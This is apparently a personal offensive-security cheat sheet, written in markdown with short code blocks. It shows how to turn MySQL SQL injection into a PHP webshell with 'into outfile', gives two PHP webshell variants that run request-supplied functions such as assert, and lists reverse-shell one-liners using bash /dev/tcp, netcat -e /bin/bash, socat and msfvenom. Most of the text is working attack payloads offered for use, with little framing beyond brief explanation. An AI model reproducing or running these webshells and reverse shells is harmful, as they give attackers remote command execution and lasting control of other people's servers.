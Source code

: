[My own notes](https://shinmao.github.io/web/2018/04/13/The-Magic-from-0CTF-ezDoor/)

# SQL inj to webshell
MYSQL:  
```
select into outfile(dumpfile)  // mysql write to document
```  
E.G.  
```  
union select 1,2,"<? system($_GET['fuck']) ?>" into outfile "://path"
```

# Dont delete my webshell
```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
// callback after shutdown
// ?e=assert&pass=phpinfo();

<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
?>
```  
[@lem0n Bypass_Disable_functions_Shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)  

# Reverse shell
If the target is located in the intranet, I cannot connect to it from the outside then Reverse shell is your best choice. Reverse shell means the victim activate the connection to the attacker.  
1. bash  
```php
bash -i >& /dev/tcp/target_ip/8080 0>&1
```  
`>&` means previous one combines with the following one then redirect to it. Therefore, `0>&1` means `std_input` combines with `std_output` and redirect to `std_output`.  
2. netcat  
```php
nc -lvvp 8080   // listen to the 8080 port
nc target_ip 8080 -t -e /bin/bash
```
build up a connection then execute `/bin/bash`  
3. socat  
```php
socat tcp-listen:8080 -
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:target_ip:8080
```  
4. python, php, java, perl  
http://www.03sec.com/3140.shtml  
5. msfvenom can generate the payload  
```php
msfvenom -l payloads cmd/unix/reverse
// this can list all the reverse script
msfvenom -p cmd/unix/xxxx lhost=target_ip lport=target_port R
```  
